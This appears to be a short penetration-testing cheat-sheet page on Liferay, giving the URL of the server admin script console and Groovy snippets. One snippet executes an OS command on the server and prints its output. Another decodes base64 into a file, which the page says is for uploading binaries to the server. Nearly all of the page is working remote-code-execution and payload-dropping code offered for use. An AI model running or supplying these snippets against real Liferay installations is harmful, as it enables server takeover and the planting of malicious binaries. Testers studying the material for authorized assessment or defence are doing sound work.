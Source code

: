 ```yaml
---
title: Liferay
category: Software
order: 7
---
```



# RCE from Goovy console

It is possible to achieve os command execution with goovy scripts.

http://localhost/group/control_panel/manage?p_p_id=com_liferay_server_admin_web_portlet_ServerAdminPortlet&p_p_lifecycle=0&p_p_state=maximized&p_p_mode=view&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_mvcRenderCommandName=%2Fserver_admin%2Fview&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_cur=0&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_tabs1=script&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_delta=0

```
def sout = new StringBuilder(), serr = new StringBuilder()
def proc = 'id'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```


Decode a base64 string and store it to a file, useful to upload binaries on the server.

```
def outputFile = new File("/tmp/test.txt") 
def base64Content = "<BASE64-CONTENT>" 
byte[] decodedBytes = Base64.decoder.decode(base64Content)
outputFile.bytes = decodedBytes
```
